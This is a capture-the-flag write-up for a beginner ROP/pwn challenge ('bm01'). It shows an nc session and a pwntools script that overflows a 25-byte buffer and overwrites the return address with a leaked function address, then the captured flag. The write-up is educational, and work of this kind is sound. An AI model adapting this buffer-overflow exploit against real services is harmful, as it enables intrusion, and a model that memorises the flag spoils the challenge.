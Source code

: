 # Pwn - bm01
## Description
```
Access the network service at 1-bm01.bootupctf.net and port: 7902 and find a way to get the flag.
```

```
└─$ nc 1-bm01.bootupctf.net 7902 
Welcome to the simple ROP server.
Call the function at the following memory address.

Function: 0x5656c26d
What say you?
```

Trial and error show that there's a buffer overflow after 25 chars, so carefully crafting a payload:
```
from pwn import *

conn = remote('1-bm01.bootupctf.net',7902,level='error')
conn.recvuntil(b"Function: ")
target = conn.recvuntil(b"\n")
target = target.strip()
target = (p32(int(target,16)))
sleep(0.1)

conn.sendline(b'a'*25 + target)
conn.recvline()
print(conn.recvline())
```
returns:                           
```
Flag: retUrnOriEntEdPrograMMinG

```
